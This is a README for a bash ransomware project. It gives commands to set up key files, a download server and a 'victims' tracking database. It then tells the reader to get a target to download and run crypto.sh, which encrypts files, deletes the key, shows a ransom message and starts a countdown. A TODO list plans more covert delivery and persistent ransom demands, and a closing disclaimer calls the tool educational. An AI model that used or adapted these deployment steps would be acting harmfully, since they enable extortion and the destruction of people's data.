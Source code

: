 # Bash Ransomware

## Requirements
 - openssl
 - jquery
 - mysql
 - php 5 (php5-mysql)

## What to do on the server-side
 - $ openssl genrsa -out priv.pem 4096
 - $ openssl rsa -pubout -in priv.pem -out pub.pem
 - $ cat /dev/urandom | tr -cd 'A-Za-z0-9' | fold -w 4096 | head -n 1 > key.bin
 - $ mkdir -p /var/www/html/downloads
 - $ cp pub.pem /var/www/html/downloads/
 - $ cp key.bin /var/www/html/downloads/
 - > Modify crypto.sh and replace the IPwith your web server's IP/URL
 - $ cp crypto.sh /var/www/html/downloads/
 - > Copy all of the ransomware files to /var/www/html
 - > You should have all of the php files in the root of your web dir (/var/www/html/)
 - > You should also have /var/www/html/images/ and /var/www/html/scripts/
 - $ cd /var/www/html/downloads
 - $ python -m SimplHTTPServer 8080 &
 - $ cd ../
 - > Modify admin.php, admin_query.php, decrypt.php, query.php, and target.php with your database information
 - > Next, create the database for storing the data
 - $ mysql -u [user] -p
 - $ create database victims;
 - $ use victims;
 - $ create table target_list (id int(6) unsigned auto_increment primary key, unique_id varchar(16) not null, target_ip varchar(30), curr_time timestamp not null, exp_time timestamp not null, time_expired bool not null);
 - $ exit

## What to do on the client-side
 - Get target to download the file and execute or if you have have access to the system, download it directly
 - $ chmod 755 crypto.sh
 - $ ./crypto.sh &

## What it does
 - Downloads the public key and key file to the target
 - Move DB settings into a common.php file and refer to that file ineach of the scripts (One place to edit instead of numerous places)
 - Loops through the system and encrypts the various files
 - Deletes the key file and leaves the public key
 - Prints the ransom message
 - Links to web pages where the user can see an active countdown of the time that is left before key deletion

## TODO
 - Configure script to download over https, more covert
 - Add in error handling for non-existing files
 - Imporve functionality and capabilities
 - Add persistent ransom demand
 - Unique key pair per victim (In work)
 - Add Screenshots
 - Make ransom message on web page prettier 
 - Create information text file or html file in each directory

## Acknowledgements/Contributors
  - Special thanks to zmallen and his lollocker (https://github.com/zmallen/lollocker)
  - lollocker served as the inspiration for this project
  - CryptoWall message text used came from https://www.pcrisk.com/removal-guides/7844-cryptowall-virus

## WARNING 
  - Use this tool at your own risk. Author is not responsible or liable if you damage your own system or others. Follow all local, state, federal, and international laws as it pertains to your geographic location. Do NOT use this tool maliciously as it is being released for educational purposes for use in cyber exercises or demonstrations of adversarial tools.
